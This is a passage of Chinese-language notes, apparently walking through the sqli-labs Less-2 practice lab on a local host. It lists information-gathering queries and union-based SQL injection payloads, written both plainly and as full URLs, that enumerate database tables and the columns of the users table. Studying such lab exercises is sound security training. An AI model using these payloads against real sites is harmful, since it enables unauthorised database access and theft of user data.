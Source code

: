 - ![](图片/Pasted%20image%2020241018162341.png)
4. 信息收集
    - version() database()
- ![](图片/Pasted%20image%2020241018163037.png)
5. 使用对应的SQL进行注入
    - union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'
    - http://127.0.0.1/sqli-labs/Less-2/index.php?id=-1%20union%20select%201,version(),group_concat(table_name)%20from%20information_schema.tables%20where%20table_schema=%27security%27
    - ![](图片/Pasted%20image%2020241018164342.png)
    - union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users'
    - http://127.0.0.1/sqli-labs/Less-2/index.php?id=-1%20union%20select%201,group_concat(column_name),3%20from%20information_schema.columns%20where%20table_name=%27users%27